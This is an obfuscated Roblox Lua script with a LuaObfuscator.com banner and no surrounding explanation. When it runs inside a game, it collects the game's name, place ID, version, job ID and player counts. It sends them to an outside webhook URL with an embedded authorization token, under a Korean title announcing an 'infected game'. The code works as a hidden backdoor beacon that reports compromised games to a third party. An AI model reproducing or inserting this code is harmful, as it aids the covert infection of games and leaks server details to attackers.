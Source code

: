 --[[
 .__
__                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.5) ~  Much Love, Ferib 

]]--

local v0="https://api-sidemod.sidetechrblx.com/v3/webhooks/1251483439669055572/Szf8UrXUTIdoLzi1z1Hh7RxyHWVGIucO5eWvMSNrNqhzJGWKVYjIbJ9qQYPYJVvNIoRH?authorization=rEX7R8W3DqxRT409LLQh";local v1=game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId);local v2=game:GetService("HttpService");local v3=game.Players:GetPlayers();local v4=game.Players.MaxPlayers;local function v5() local v8=os.date("*t");return ("%02d:%02d"):format((((v8.hour%(643 -(555 + 64))) -1)%12) + (932 -(857 + 74)) ,v8.min);end local v6={embeds={{title="감염게임 발견 바로가기!",url="https://roblox.com/games/"   .. game.PlaceId ,description="**Game Name:** "   .. v1.Name   .. "\n**Players:** "   ..  #v3   .. "/"   .. v4   .. "\n**Game Id:** "   .. game.PlaceId   .. "\n**Game Version:** "   .. game.PlaceVersion   .. "\n**Job Id:** "   .. game.JobId ,image={url="https://t2.rbxcdn.com/0d499b55a8bc928003c91e739d829038"   .. game.PlaceId   .. "&width=768&height=432&format=png" },footer={icon_url=""},color=5815351 -(367 + 201) }}};local v7=v2:JSONEncode(v6);v2:PostAsync(v0,v7);
